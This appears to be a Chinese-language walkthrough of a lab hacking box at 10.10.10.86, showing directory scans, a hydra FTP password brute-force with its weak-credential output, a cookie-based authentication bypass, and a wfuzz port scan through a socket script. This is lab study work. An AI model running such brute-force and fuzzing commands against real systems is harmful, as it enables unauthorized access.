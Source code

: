 #### 目录扫描
gobuster扫描存在的目录有：
```
http://10.10.10.86/login
http://10.10.10.86:8080/socket
```
#### nginx 1.10.3漏洞
http://www.91ri.org/9064.html  解析漏洞

## 8080

```
http://10.10.10.86:8080
Internal Dev
Access denied: password authentication cookie not set 
```
![14](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-19-04/14.PNG)

```
 dirb http://10.10.10.86:8080/socket/
dirb http://10.10.10.86:8080/socket?
可能是wfuzz出参数，然后命令执行
```
## trying:
利用info1的字典，用hydra得到了可登录的账号。

hydra -L user.txt -P /usr/share/wordlists/500-worst-passwords.txt 10.10.10.86 ftp

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-19-04/5.PNG)

#### info2 : ftp账号
```
[21][ftp] host: 10.10.10.86   login: ftp   password: 123456
[21][ftp] host: 10.10.10.86   login: ftp   password: 12345678
[21][ftp] host: 10.10.10.86   login: ftp   password: pussy
[21][ftp] host: 10.10.10.86   login: ftp   password: 12345
[21][ftp] host: 10.10.10.86   login: ftp   password: password
[21][ftp] host: 10.10.10.86   login: ftp   password: 1234
```
## writeup
通过暴力破解，得到admin/Password1，作为密码，进入80端口。

参考[这篇文章](https://whale3070.github.io/tools/2019/03/24/02-x/)，`Cookie: password=secret`，用插件`cookie editor`修改cookie.

通过验证进入页面后，发现一个tcp连接的php脚本

http://10.10.10.86:8080/socket?port=22&cmd=11

通过fuzz，获取开放的端口。

```
wfuzz -c --hc=500 -z range,1-65535 -H "Cookie: password=secret" 'http://10.10.10.86:8080/socket?port=FUZZ&cmd=11'
```
![17](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-19-04/17.PNG)
